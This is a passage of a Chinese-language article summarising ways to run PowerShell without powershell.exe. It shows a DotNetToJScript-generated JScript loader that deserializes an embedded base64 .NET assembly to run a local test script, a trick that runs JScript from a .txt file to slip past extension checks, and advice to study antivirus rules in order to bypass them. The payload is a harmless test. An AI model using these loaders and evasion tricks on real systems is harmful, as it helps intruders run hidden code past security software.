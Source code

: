 编译完得到Dotnettojscript.exe、ExampleAssembly.dll两个文件，然后我们继续将我们的test.ps1文件进行生成一个js文件，

其内容如下：

```
function setversion() {}function debug(s) {}function base64ToStream(b) { var enc = new ActiveXObject("System.Text.ASCIIEncoding"); var length = enc.GetByteCount_2(b); var ba = enc.GetBytes_4(b); var transform = new ActiveXObject("System.Security.Cryptography.FromBase64Transform"); ba = transform.TransformFinalBlock(ba, 0, length); var ms = new ActiveXObject("System.IO.MemoryStream"); ms.Write(ba, 0, (length / 4) * 3); ms.Position = 0; return ms;} var serialized_obj = "AAEAAAD/////AQAAAAAAAAAEAQAAACJTeXN0ZW0uRGVsZWdhdGVTZXJpYWxpemF0aW9uSG9sZGVy"+"AwAAAAhEZWxlZ2F0ZQd0YXJnZXQwB21ldGhvZDADAwMwU3lzdGVtLkRlbGVnYXRlU2VyaWFsaXph"+"dGlvbkhvbGRlcitEZWxlZ2F0ZUVudHJ5IlN5c3RlbS5EZWxlZ2F0ZVNlcmlhbGl6YXRpb25Ib2xk"+"ZXIvU3lzdGVtLlJlZmxlY3Rpb24uTWVtYmVySW5mb1NlcmlhbGl6YXRpb25Ib2xkZXIJAgAAAAkD"+"AAAACQQAAAAEAgAAADBTeXN0ZW0uRGVsZWdhdGVTZXJpYWxpemF0aW9uSG9sZGVyK0RlbGVnYXRl"+"RW50cnkHAAAABHR5cGUIYXNzZW1ibHkGdGFyZ2V0EnRhcmdldFR5cGVBc3NlbWJseQ50YXJnZXRU"+"eXBlTmFtZQptZXRob2ROYW1lDWRlbGVnYXRlRW50cnkBAQIBAQEDMFN5c3RlbS5EZWxlZ2F0ZVNl"+"cmlhbGl6YXRpb25Ib2xkZXIrRGVsZWdhdGVFbnRyeQYFAAAAL1N5c3RlbS5SdW50aW1lLlJlbW90"+"aW5nLk1lc3NhZ2luZy5IZWFkZXJIYW5kbGVyBgYAAABLbXNjb3JsaWIsIFZlcnNpb249Mi4wLjAu"+"MCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5BgcAAAAH"+"dGFyZ2V0MAkGAAAABgkAAAAPU3lzdGVtLkRlbGVnYXRlBgoAAAANRHluYW1pY0lud**rZQoEAwAA"+"ACJTeXN0ZW0uRGVsZWdhdGVTZXJpYWxpemF0aW9uSG9sZGVyAwAAAAhEZWxlZ2F0ZQd0YXJnZXQw"+"B21ldGhvZDADBwMwU3lzdGVtLkRlbGVnYXRlU2VyaWFsaXphdGlvbkhvbGRlcitEZWxlZ2F0ZUVu"+"dHJ5Ai9TeXN0ZW0uUmVmbGVjdGlvbi5NZW1iZXJJbmZvU2VyaWFsaXphdGlvbkhvbGRlcgkLAAAA"+"CQwAAAAJDQAAAAQEAAAAL1N5c3RlbS5SZWZsZWN0aW9uLk1lbWJlckluZ**TZXJpYWxpemF0aW9u"+"SG9sZGVyBgAAAAROYW1lDEFzc2VtYmx5TmFtZQlDbGFzc05hbWUJU2lnbmF0dXJlCk1lbWJlclR5"+"cGUQR2VuZXJpY0FyZ3VtZW50cwEBAQEAAwgNU3lzdGVtLlR5cGVbXQkKAAAACQYAAAAJCQAAAAYR"+"AAAALFN5c3RlbS5PYmplY3QgRHluYW1pY0lud**rZShTeXN0ZW0uT2JqZWN0W10pCAAAAAoBCwAA"+"AAIAAAAGEgAAACBTeXN0ZW0uWG1sLlNjaGVtYS5YbWxWYWx1ZUdldHRlcgYTAAAATVN5c3RlbS5Y"+"bWwsIFZlcnNpb249Mi4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdh"+"NWM1NjE5MzRlMDg5BhQAAAAHdGFyZ2V0MAkGAAAABhYAAAAaU3lzdGVtLlJlZmxlY3Rpb24uQXNz"+"ZW1ibHkGFwAAAARMb2FkCg8MAAAAUAAAAAJlY2hvICJoZWxsbyBmc**tIHBvd2Vyc2hlbGwtbGVz"+"cyINCmVjaG8gInRoaXMgaXMgeW91ciBwaWQ6JFBJRCINCiRwc3ZlcnNpb250YWJsZQENAAAABAAA"+"AAkXAAAACQYAAAAJFgAAAAYaAAAAJ1N5c3RlbS5SZWZsZWN0aW9uLkFzc2VtYmx5IExvYWQoQnl0"+"ZVtdKQgAAAAKCwAA";var entry_class = 'TestClass'; try { setversion(); var stm = base64ToStream(serialized_obj); var fmt = new ActiveXObject('System.Runtime.Serialization.Formatters.Binary.BinaryFormatter'); var al = new ActiveXObject('System.Collections.ArrayList'); var d = fmt.Deserialize_2(stm); al.Add(undefined); var o = d.DynamicInvoke(al.ToArray()).CreateInstance(entry_class); } catch (e) { debug(e.message);} 解密后的主要逻辑如下： var entry_class = 'TestClass';try {setversion();var stm = base64ToStream(serialized_obj);var fmt = new ActiveXObject('System.Runtime.Serialization.Formatters.Binary.BinaryFormatter');var al = new ActiveXObject('System.Collections.ArrayList');var d = fmt.Deserialize_2(stm); al.Add(undefined);var o = d.DynamicInvoke(al.ToArray()).CreateInstance(entry_class);o.RunScript("c:\\test\\test.ps1");} catch (e) {debug(e.message);}
```

运行结果：

当然你也可以用下面的方法如绕过对JS后缀的检测

```
cscript //e:jscript testps.txt
```

但是360无情的杀死了我们....

![v2-03f43a71253a31846977de882b9b4e13\_hd.j](https://pic4.zhimg.com/80/v2-03f43a71253a31846977de882b9b4e13\_hd.jpg)

写在后面：

本文仅对网上常见的无PS运行PS的手段进行了总结，实验过程大家也可以看的出来，是可以bypass一些\*\*的，也是各有各的优缺点，最好是针对不同的\*\*去找出它的拦截规则，然后再进行对于的bypass操作。
